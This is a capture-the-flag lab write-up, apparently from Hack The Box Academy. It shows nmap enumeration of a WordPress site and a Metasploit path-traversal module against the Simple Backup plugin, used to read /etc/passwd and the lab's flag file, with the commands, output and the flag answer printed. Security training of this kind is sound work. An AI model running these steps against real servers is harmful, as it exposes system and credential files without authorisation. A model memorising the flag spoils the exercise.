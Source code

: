 ## Public exploits

**IP & Port:** 94.237.63.49:55501

1. Running nmap to enumerate ip and port
    ```bash
    [★]$ nmap -sC -sV 94.237.63.49 -p 55501
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-03 14:03 CDT
    Nmap scan report for 94-237-63-49.uk-lon1.upcloud.host (94.237.63.49)
    Host is up (0.00084s latency).

    PORT      STATE SERVICE VERSION
    55501/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Getting Started &#8211; Just another WordPress site
    |_http-generator: WordPress 5.6.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
    ```
    - service running: http
    - version: Apache httpd 2.4.41
2. Since its http service, open it in webrowser.<br>
    <img src = "image.png" width = "300" height = "200">
    - A different version of Apache is mentioned here
    - ***Simple Backup Plugin 2.7.10 for WordPress***
3. Use metasploit to search for public exploits
    - Run msfconsole using ***msfconsole***
    ```bash
    [msf](Jobs:0 Agents:0) >> search exploit wordpress 2.7.10

    Matching Modules
    ================

    #  Name                                               Disclosure Date  Rank    Check  Description
    -  ----                                               ---------------  ----    -----  -----------
    0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


    Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read
    ```
    - Use exploit
    ```bash
    [msf](Jobs:0 Agents:0) >> use 0
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> show options

    Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    DEPTH      6                yes       Traversal Depth (to reach the root fo
                                            lder)
    FILEPATH   /etc/passwd      yes       The path to the file to read
    Proxies                     no        A proxy chain of format type:host:por
                                            t[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://docs.
                                            metasploit.com/docs/using-metasploit/
                                            basics/using-metasploit.html
    RPORT      80               yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoing connec
                                            tions
    TARGETURI  /                yes       The base path to the wordpress applic
                                            ation
    THREADS    1                yes       The number of concurrent threads (max
                                            one per host)
    VHOST                       no        HTTP server virtual host


    View the full module info with the info, or info -d command.
    ```
    - RHOST and RPORT are required. Since RPORT is defaulted to 80 but our port is 55501, this needs to be changed.
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RHOST 94.237.63.49
    RHOST => 94.237.63.49
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set RPORT 55501
    RPORT => 55501
    ```
4. Run the exploit using **exploit**
    - It seems to have saved a file in "File saved in: /home/htb-ac-1397757/.msf4/loot/20241003142738_default_94.237.63.49_simplebackup.tra_620619.txt"
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

    [+] File saved in: /home/htb-ac-1397757/.msf4/loot/20241003142738_default_94.237.63.49_simplebackup.tra_620619.txt
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    - View the file
    ```bash
    ┌─[us-academy-4]─[10.10.15.49]─[htb-ac-1397757@htb-honshykm1p]─[~]
    └──╼ [★]$ cat /home/htb-ac-1397757/.msf4/loot/20241003142738_default_94.237.63.49_simplebackup.tra_620619.txt 
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    ```
    - From use exploit image above, it looks like its fetching information from ***FILEPATH   /etc/passwd*** that's why the output above is /etc/passwd info of the webserver.
5. in HTB-academy question, they asked ***for the content of the '/flag.txt' file***
    - change the settings in metasploit for FILEPATH from /etc/passwd to /flag.txt
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> set FILEPATH /flag.txt
    FILEPATH => /flag.txt
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> show options

    Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    DEPTH      6                yes       Traversal Depth (to reach the root fo
                                            lder)
    FILEPATH   /flag.txt        yes       The path to the file to read
    Proxies                     no        A proxy chain of format type:host:por
                                            t[,type:host:port][...]
    RHOSTS     94.237.63.49     yes       The target host(s), see https://docs.
                                            metasploit.com/docs/using-metasploit/
                                            basics/using-metasploit.html
    RPORT      55501            yes       The target port (TCP)
    ```
    - Run exploit
    ```bash
    [msf](Jobs:0 Agents:0) auxiliary(scanner/http/wp_simple_backup_file_read) >> exploit

    [+] File saved in: /home/htb-ac-1397757/.msf4/loot/20241003143642_default_94.237.63.49_simplebackup.tra_135170.txt
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    - check the saved file
    ```bash
    [★]$ cat /home/htb-ac-1397757/.msf4/loot/20241003143642_default_94.237.63.49_simplebackup.tra_135170.txt 
    
    HTB{my_f1r57_h4ck}
    ```